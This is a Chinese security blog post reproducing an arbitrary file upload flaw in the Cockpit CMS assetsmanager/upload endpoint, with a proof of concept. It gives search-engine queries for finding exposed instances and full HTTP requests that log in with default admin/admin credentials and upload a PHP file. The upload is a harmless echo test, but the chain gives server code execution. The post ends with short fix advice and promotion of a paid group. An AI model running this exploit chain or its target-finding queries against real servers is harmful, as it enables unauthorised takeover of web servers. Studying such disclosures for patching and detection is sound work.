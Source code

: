 #  【漏洞复现】cockpit系统assetsmanager/upload接口存在文件上传漏洞 | 附poc   
原创 xiaocaiji  网安鲲为帝   2024-05-19 21:30  
  
**0x00****免责声明**  
  
!  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/1MLz0YkS76HN2mDzsc3eKehjJJTibD6cvzwcAQjFRKJibj2hFeFx9xqPxeAVNLIWWM7ia8XD9YUsUYyFLonA46ewoicJrmJO2oNx/640?wx_fmt=svg&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
本  
文  
仅  
用  
于  
技  
术  
讨  
论  
与  
学  
习  
，  
利  
用  
此  
文  
所  
提  
供  
的  
信  
息  
而  
造  
成  
的  
任  
何  
直  
接  
或  
者  
间  
接  
的  
后  
果  
及  
损  
失  
，  
均  
由  
使  
用  
者  
本  
人  
负  
责  
，  
文  
章  
作  
者  
及  
本  
公  
众  
号  
团  
队  
不  
为  
此  
承  
担  
任  
何  
责  
任  
。  
  
  
**0x01 漏洞描述**  
  
!  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/1MLz0YkS76HN2mDzsc3eKehjJJTibD6cvzwcAQjFRKJibj2hFeFx9xqPxeAVNLIWWM7ia8XD9YUsUYyFLonA46ewoicJrmJO2oNx/640?wx_fmt=svg&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
cockpit系统assetsmanager/upload接口处存在任意文件上传漏洞。攻击者可通过该漏洞在服务端任意上传代码并获取服务器权限，进而控制整个Web服务器。  
  
  
**0x02 空间测绘**  
  
!  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/1MLz0YkS76HN2mDzsc3eKehjJJTibD6cvzwcAQjFRKJibj2hFeFx9xqPxeAVNLIWWM7ia8XD9YUsUYyFLonA46ewoicJrmJO2oNx/640?wx_fmt=svg&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
测  
绘  
语  
法：  
```
Fofa：title="Authenticate Please!"
quake：title:"Authenticate Please!"
hunter：web.title="Authenticate Please!"
```  
  
  
****  
**0x03 漏洞复现**  
  
!  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/1MLz0YkS76HN2mDzsc3eKehjJJTibD6cvzwcAQjFRKJibj2hFeFx9xqPxeAVNLIWWM7ia8XD9YUsUYyFLonA46ewoicJrmJO2oNx/640?wx_fmt=svg&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
登录界面如下：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/uIXF7K92VEK6WOO3Fu76yXWSltpsYPlHHlBQeVY6UDk7v1mpOjX72IrKBgBB6iat4ZuU0uLDYQj5zfQJsSanpjA/640?wx_fmt=other&from=appmsg "")  
  
1.执行poc进行csrf信息获取，并获取cookie，再上传访问得到结果：  
```
GET /auth/login?to=/ HTTP/1.1
Host: xxx.com
Content-Length: 2
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/uIXF7K92VEK6WOO3Fu76yXWSltpsYPlH4tibg6LSibCBDDJuWYfyD4Ta6lp8obWZTibTE0nIia2JZVV7M35CljjKlQ/640?wx_fmt=png&from=appmsg "")  
  
  
2.使用刚才上一步获取到的jwt获  
取cookie：  
```
POST /auth/check HTTP/1.1
Host: xxx.com
Content-Type: application/json
User-Agent: Mozilla/5.0 
Content-Length: 157

{"auth":{"user":"admin","password":"admin"},"csfr":"csfr"}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/uIXF7K92VEK6WOO3Fu76yXWSltpsYPlHs8lQfu48NnIR9lmuiap55R5GXZ1CzwxyEX0SDCSaGad4VG15yTUnicRA/640?wx_fmt=png&from=appmsg "")  
  
3.上传文件：  
  
```
POST /assetsmanager/upload HTTP/1.1
Host: xxx.com
Content-Type: multipart/form-data; boundary=---------------------------36D28FBc36bd6feE7Fb3
Cookie: mysession=123451234512345123451234512345123
User-Agent: Mozilla/5.0 
Content-Length: 357

-----------------------------36D28FBc36bd6feE7Fb3
Content-Disposition: form-data; name="files[]"; filename="BE1a3e.php"
Content-Type: text/php

<?php echo "12131231231234e80test";unlink(__FILE__);?>
-----------------------------36D28FBc36bd6feE7Fb3
Content-Disposition: form-data; name="folder"


-----------------------------36D28FBc36bd6feE7Fb3--
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/uIXF7K92VEK6WOO3Fu76yXWSltpsYPlHrq5gKAlFEARE11ZqX1fn8Zrib75UxyNIntZDic0r6S5HHVR0kAhGNfBA/640?wx_fmt=png&from=appmsg "")  
  
4.访问   
url+/storage/uploads/+path 验证上传结果：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/uIXF7K92VEK6WOO3Fu76yXWSltpsYPlHhoNr1ySCkZkyiaYCTuQua4oqFx0iaZsw27PZiaaL2tdMVbdxLxCCKna3g/640?wx_fmt=png&from=appmsg "")  
  
  
  
**0x04 修复意见**  
  
!  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/1MLz0YkS76HN2mDzsc3eKehjJJTibD6cvzwcAQjFRKJibj2hFeFx9xqPxeAVNLIWWM7ia8XD9YUsUYyFLonA46ewoicJrmJO2oNx/640?wx_fmt=svg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
1、请联系厂商进行修复。   
  
2、在后端限制允许上传的文件类型或文件内容。   
  
3、设置白名单访问。  
  
  
**0x05 nuclei验证脚本获取**  
  
!  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/1MLz0YkS76HN2mDzsc3eKehjJJTibD6cvzwcAQjFRKJibj2hFeFx9xqPxeAVNLIWWM7ia8XD9YUsUYyFLonA46ewoicJrmJO2oNx/640?wx_fmt=svg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
验证脚本已发布到纷传圈子，目前还有几个优惠进入名额，师傅们要进的抓紧哦！后续价格只增不减，错过机会难再遇哦！  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/uIXF7K92VEK6WOO3Fu76yXWSltpsYPlHYewSwbIscED0zEWkGvCah2V3JZN6KHXicLCnvV97SCJxcicsYJNDeSoQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
**0x06 欢迎进群交流**  
  
!  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/1MLz0YkS76HN2mDzsc3eKehjJJTibD6cvzwcAQjFRKJibj2hFeFx9xqPxeAVNLIWWM7ia8XD9YUsUYyFLonA46ewoicJrmJO2oNx/640?wx_fmt=svg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
添加微信进群：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/uIXF7K92VEJdfiaGbzW6sp0kFvhYC7ejuJuS6lWyHyUGg40F2QVic6goic34EbYceQ2WE4eyMZ8oxbswQkhzJLhNQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
